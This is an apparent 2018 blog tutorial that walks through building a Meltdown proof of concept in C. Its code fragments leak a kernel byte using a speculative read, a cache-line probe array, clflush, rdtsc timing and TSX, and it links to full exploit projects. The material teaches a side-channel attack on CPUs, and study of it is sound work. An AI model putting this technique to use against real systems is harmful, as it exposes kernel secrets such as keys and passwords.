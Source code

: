 ```yaml
---
layout: post
title: "Programmer's guide to meltdown"
date: 2018-01-09 23:57:48 -0200
comments: true
categories: [security, hardware, programming]
keywords: meltdown, exploit, proof-of-concept, poc, kpti, kaiser, security
description: programmer's guide to meltdown exploit poc
---
```


Ok, what I want here is to guide you through a Meltdown proof-of-concept that
peeks into kernel data that cpu is supposed to protect. Unfortunately, that
promise was broken and virtually all intel x86 cpu hosts are vulnerable until
patched (Linux patchset is available and named [kpti (kernel page table isolation)](https://lkml.org/lkml/2017/10/31/884)).

So far, we thought we were protected by cpu mechanisms because when you try
to load kernel (sensitive) data, cpu triggers an exception which in turn is
propagated by kernel to application as SIGSEGV, leading to application
termination, look at this example:
```bash
$ cat /proc/kallsyms | grep banner
ffffffff81a00060 R linux_proc_banner
$ cat kernel_address_read.cc 
main() {
  	char *p = (char*)0xffffffff81a00060; // use address of a kernel symbol containing banner
	*p = 0;
}
$ ./kernel_address_read
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

So time went by, and we all thought we were safe. Recently it was figured out
that speculative execution could be exploited to break that promise.
It basically consists of making the cpu use the value stored in a kernel
address before the cpu detects the access to kernel data is an invalid
instruction, but it's not that simple... look at this example:

```c
char *kernel_address = (char*)0xffffffff81a00060;
char kernel_data = *kernel_address;
int number = 10;
char byte = kernel_data + number;
```

It turns out that cpu may actually perform the addition of value found in kernel
address and 10, but the result is definitely not returned to the program which
again terminates with a SIGSEGV.

Now comes the BINGO, EUREKA! moment: A researcher figured out that whichever
data (in example above kernel_data and byte) used in the instruction
that procedes the invalid one (*kernel_address) will remain cached in the
cpu data cache. Yes! CPU doesn't invalidate data cached from an instruction
which used the result (kernel data) of an invalid one (access to kernel data).

Well, data cache cannot directly be read. But we know that access to data
cached is much faster than to uncached ones, so what we can do is to use the
byte read from kernel as an index for an array of size 256 elements, each index
representing a possible representation of a byte (0..255). For example:

```c
char *kernel_address = (char*)0xffffffff81a00060;
char array[256];

char kernel_data_as_index = *kernel_address;
char byte = array[kernel_data_as_index];
```

That would only work if cache line size is 1, but it's usually 64 for level 1,
so we need to multiply array size and index by 64.

```c
const int cache_line_size = 64;
char *kernel_address = (char*)0xffffffff81a00060;
char array[256 * cache_line_size];

char kernel_data_as_index = *kernel_address;
char byte = array[kernel_data_as_index * cache_line_size];
```

So if it happens that the instruction that accesses array using byte read from
kernel is executed before cpu triggers exception for invalid access to kernel,
it means cpu will bring array[kernel_data_as_index * cache_line_size] to cache.

Now we know that we can iterate through the 256 "cache lines" in array, and
we'll know that the one with the fastest access time is the one cached by cpu,
and the "cache line" index is actually the byte read from kernel.

For example:

```c
const int cache_line_size = 64;
char *kernel_address = (char*)0xffffffff81a00060;
char array[256 * cache_line_size];

char kernel_data_as_index = *kernel_address;
char byte = array[kernel_data_as_index * cache_line_size];

// Please consider for now that signal handler for sigsegv was set up,
// and we continue executing from here after invalid access

int fastest_i_time = MAX_INTEGER_VALUE;
int fastest_i = 0;

for (int i = 0; i < 256; i++) {
    // access_time_to() calculates the time to load array[i * cache_line_size] using rdtsc or rdtscp.
    int time = access_time_to(array[i * cache_line_size]);
    if (time < fastest_i_time) {
        fastest_i_time = time;
        fastest_i = i;
    }
}

printf("byte read from kernel is: %d\n", fastest_i);
```

It's not hard to understand it. If you think of it, fastest_i is equal to the
byte stored in kernel_address because program determined array[fastest_i *
cache_line_size] is cached by cpu and only one place in array was cached
previously by the instructions that accessed kernel and used its value to
retrieve a byte from array.

In real life, it's not that simple to implement because you need to clear data
cache (clflush instruction can be used) before performing the test because you
want to read more bytes and the data cache shouldn't be polluted for array or
wrong result is returned.

This is my assembly inline to clear cache line for a specific address:
```c
__attribute__((always_inline))
inline void __clflush(const char *address)
{
    asm __volatile__ (
        "mfence         \n"
        "clflush 0(%0)  \n"
        :
        : "r" (address)
        :            );
}
```

So you'll need to do that for each "cache line" in the array, the code now
becomes this:

```c
const int cache_line_size = 64;
char *kernel_address = (char*)0xffffffff81a00060;
char array[256 * cache_line_size];

for (int i = 0; i < 256; i++) {
    __clflush(array[i * cache_line_size]);
}

char kernel_data_as_index = *kernel_address;
char byte = array[kernel_data_as_index * cache_line_size];

int fastest_i_time = MAX_INTEGER_VALUE;
int fastest_i = 0;

for (int i = 0; i < 256; i++) {
    // access_time_to() calculates the time to load array[i * cache_line_size] using rdtsc or rdtscp.
    int time = access_time_to(array[i * cache_line_size]);
    if (time < fastest_i_time) {
        fastest_i_time = time;
        fastest_i = i;
    }
}

printf("byte read from kernel is: %d\n", fastest_i);
```

That's not complete code because you'll have to set up signal handler or use
TSX (Transactional Synchronization Extensions) to mitigate SIGSEGV that occurs
after the instruction to load kernel address retires (is fully executed).
Follow example using TSX:
```c
const int cache_line_size = 64;
char *kernel_address = (char*)0xffffffff81a00060;
char array[256 * cache_line_size];

for (int i = 0; i < 256; i++) {
    __clflush(array[i * cache_line_size]);
}

if (_xbegin() == _XBEGIN_STARTED) {
    char kernel_data_as_index = *kernel_address;
    char byte = array[kernel_data_as_index * cache_line_size];
    _xend();
} else {
    // do nothing
}

int fastest_i_time = MAX_INTEGER_VALUE;
int fastest_i = 0;

for (int i = 0; i < 256; i++) {
    // access_time_to() calculates the time to load array[i * cache_line_size] using rdtsc or rdtscp.
    int time = access_time_to(array[i * cache_line_size]);
    if (time < fastest_i_time) {
        fastest_i_time = time;
        fastest_i = i;
    }
}

printf("byte read from kernel is: %d\n", fastest_i);
```

There's nothing much you can do with this code that only reads 1 byte from
kernel space, so I'd suggest you to take a look at the code of my own project
that exploits meltdown to check whether or not system is affected, follow link:
https://github.com/raphaelsc/Am-I-affected-by-Meltdown
I'd also recommend you to take a look at proof-of-concept of the researchers
involved: https://github.com/IAIK/meltdown/

Cheers!

